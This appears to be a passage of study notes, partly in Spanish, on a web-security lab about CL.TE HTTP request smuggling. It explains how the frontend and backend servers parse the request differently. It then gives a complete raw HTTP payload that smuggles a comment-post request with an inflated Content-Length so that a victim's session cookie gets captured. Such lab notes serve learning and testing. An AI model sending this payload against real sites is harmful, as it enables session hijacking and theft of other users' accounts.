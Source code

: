 Mis notas (igual que antes)

Detectamos con la CheatSheet que es CL-TE. Construimos ataque:

- El frontend server procesa CL y enviará la request al backend con todo el cuerpo (todo lo marcado en rojo son los 120 caracteres de la cabecera Content-Length)
- El backend server procesa TE y leerá solamente el primer chunk, porque es el último. El resto de información se queda de prefijo para la siguiente request.

![adm2](images/admin2.png)  

### CL.TE multiCase - Content-Length

>Large Content-Length to capture victim requests. Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to **798**, then smuggle POST request to the back-end server.

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=HackerCurrentCookieValue

csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
```  
  